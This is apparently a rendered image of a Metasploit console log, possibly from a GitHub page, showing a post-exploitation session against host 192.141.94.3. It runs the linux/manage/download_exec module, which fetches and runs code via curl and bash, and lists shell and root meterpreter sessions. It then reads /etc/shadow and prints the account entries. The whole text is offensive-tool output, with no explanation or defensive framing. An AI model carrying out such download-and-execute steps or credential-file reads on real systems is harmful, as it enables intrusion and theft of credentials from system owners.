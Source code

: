 ```
[*] Checking if curl exists in the path...
[*] Checking if wget exists in the path...
[!] neither curl nor wget available in the $PATH, aborting...
[*] Post module execution completed
msf5 post(linux/manage/download_exec) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  6         shell cmd/unix                                                                 192.141.94.2:45369 -> 192.141.94.3:445 (192.141.94.3)
  7         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.141.94.3             192.141.94.2:4433 -> 192.141.94.3:49134 (192.141.94.3)
  8         shell sparc/bsd        /bin/sh: 0: can't access tty; job control turned off #  192.141.94.2:4444 -> 192.141.94.3:52896 (192.141.94.3)

msf5 post(linux/manage/download_exec) > set SESSION 6
SESSION => 6
msf5 post(linux/manage/download_exec) > run

[!] SESSION may not be compatible with this module.
[*] Checking if curl exists in the path...
[+] curl available, using it
[*] Checking if bash exists in the path...
[+] bash available, using it
[*] Post module execution completed
```

```
msf5 post(linux/manage/download_exec) > sessions 6
[*] Starting interaction with 6...

cat /etc/shadow
root:*:17774:0:99999:7:::
daemon:*:17774:0:99999:7:::
bin:*:17774:0:99999:7:::
sys:*:17774:0:99999:7:::
sync:*:17774:0:99999:7:::
games:*:17774:0:99999:7:::
man:*:17774:0:99999:7:::
lp:*:17774:0:99999:7:::
mail:*:17774:0:99999:7:::
news:*:17774:0:99999:7:::
uucp:*:17774:0:99999:7:::
proxy:*:17774:0:99999:7:::
www-data:*:17774:0:99999:7:::
backup:*:17774:0:99999:7:::
list:*:17774:0:99999:7:::
irc:*:17774:0:99999:7:::
gnats:*:17774:0:99999:7:::
nobody:*:17774:0:99999:7:::
systemd-timesync:*:17774:0:99999:7:::
systemd-network:*:17774:0:99999:7:::
systemd-resolve:*:17774:0:99999:7:::
systemd-bus-proxy:*:17774:0:99999:7:::
messagebus:*:17812:0:99999:7:::
colord:*:17812:0:99999:7:::
saned:*:17812:0:99999:7:::
usbmux:*:17812:0:99999:7:::
hacker:!:19427:0:99999:7:::
```